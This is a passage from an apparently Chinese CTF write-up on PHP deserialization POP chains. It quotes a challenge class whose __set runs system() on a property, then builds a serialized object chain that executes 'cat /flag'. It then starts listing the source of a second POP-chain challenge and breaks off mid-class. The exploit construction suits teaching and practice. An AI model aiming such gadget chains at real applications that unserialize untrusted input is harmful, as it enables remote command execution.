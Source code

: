 代码审计后发现：B类中的

```php
    public function __set($a,$b){
        system($this->ao);//这是一个破解口
    }
```

构造之后的结果：

```php
//A__construct->C__call->B__set
$a = new A();
$a->abb =new C();
$a->abb->chance =new B();
$a->abb->chance->ao = 'cat /flag';
echo serialize($a);
```



### pop链第二题

```php
<?php
error_reporting(0);
class Hello{
    public $apple;
    public $strawberry;
    public function __construct($a){
        $this -> apple = $a;
    }
    function __destruct()//4
    {
        echo $this -> apple;
    }
}

class NoNo {
    public $peach;
    public function __toString()//3
    {
        $new = $this -> peach;
        return $new();
    }
}

class Banana{
    public $orange;
    public $cherry;
    public $arg1;
    public function __call($arg1,$arg2){
        $function = $this -> orange;
        return $function();
    }
    public function __get($arg1)
    {
        $this -> cherry -> ll2('b2');
    }

}

class UkyoT{
    public $banana;
    public $mangosteen;

    public function __toString()
```